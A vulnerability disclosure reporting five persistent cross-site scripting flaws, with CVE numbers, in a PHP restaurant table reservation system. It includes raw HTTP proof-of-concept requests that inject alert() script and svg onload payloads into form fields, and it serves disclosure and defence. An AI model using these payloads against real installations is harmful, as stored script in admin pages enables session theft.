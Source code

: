 ### Exploit Title: Multi Restaurant Table Reservation System - Multiple Persistent XSS
### Date: 01-11-2020
### Exploit Author: yunaranyancat
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/sites/default/files/download/janobe/tablereservation.zip
### Version: 1.0
### Tested on: Ubuntu 18.04 + XAMPP 7.4.11

Summary: 

Multiple Persistent Cross-site Scripting in Multi Restaurant Table Reservation System allows attacker to gain sensitive information using these vulnerabilities.

# 1.CVE-2020-35261
Persistent XSS vulnerability at /dashboard/profile.php triggered by adding payload in Restaurant Name field 

### Sample request POC #1

```
POST /TableReservation/dashboard/profile.php HTTP/1.1
Host: [TARGET URL/IP]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://[TARGET URL/IP]/TableReservation/dashboard/profile.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Cookie: PHPSESSID=0095837d1f0f69aa6c35a0bf2f70193c
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

fullname=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&email=lol%40lol&phone=123456789&area=1&address=lol&password=lol&save=Save
```

# 2.CVE-2020-36550
Persistent XSS vulnerability at /dashboard/table-list.php triggered by adding payload in Table Name field in table-add.php

### Sample request POC #2

```
POST /TableReservation/dashboard/manage-insert.php HTTP/1.1
Host: [TARGET URL/IP]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://[TARGET URL/IP]/TableReservation/dashboard/table-add.php
Content-Type: multipart/form-data; boundary=---------------------------424640138424818065256966622
Content-Length: 321
Cookie: PHPSESSID=d464c277434e6f2cf4358f59a368b090
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------424640138424818065256966622
Content-Disposition: form-data; name="tablename"

<script>alert("XSS")</script>
-----------------------------424640138424818065256966622
Content-Disposition: form-data; name="addtable"

Add Table
-----------------------------424640138424818065256966622--
```

# 3.CVE-2020-36551
Persistent XSS vulnerability at /dashboard/menu-list.php triggered by adding payload in Item Name field in menu-add.php

# 4.CVE-2020-36552
Persistent XSS vulnerability at /dashboard/menu-list.php triggered by adding payload in Made by field in menu-add.php

# 5.CVE-2020-36553
Persistent XSS vulnerability at /dashboard/menu-list.php triggered by modifying value of Area(food_type) dropdown to XSS payload in menu-add.php

### Sample request POC #3, #4 & #5

```
POST /TableReservation/dashboard/manage-insert.php HTTP/1.1
Host: [TARGET URL/IP]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://[TARGET URL/IP]/TableReservation/dashboard/menu-add.php
Content-Type: multipart/form-data; boundary=---------------------------165343425917898292661480081499
Content-Length: 6641
Cookie: PHPSESSID=d464c277434e6f2cf4358f59a368b090
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------165343425917898292661480081499
Content-Disposition: form-data; name="itemname"

<script>alert("XSS1")</script>
-----------------------------165343425917898292661480081499
Content-Disposition: form-data; name="price"

1
-----------------------------165343425917898292661480081499
Content-Disposition: form-data; name="madeby"

<svg onload=alert("XSS2")>
-----------------------------165343425917898292661480081499
Content-Disposition: form-data; name="food_type"

<svg onload=prompt("XSS4")>
-----------------------------165343425917898292661480081499
Content-Disposition: form-data; name="image"; filename="image.jpeg"
Content-Type: image/jpeg

..
[REDACTED CONTENT OF image.jpeg]
..

----------------------------165343425917898292661480081499
Content-Disposition: form-data; name="addItem"

Add Item
-----------------------------165343425917898292661480081499--
```
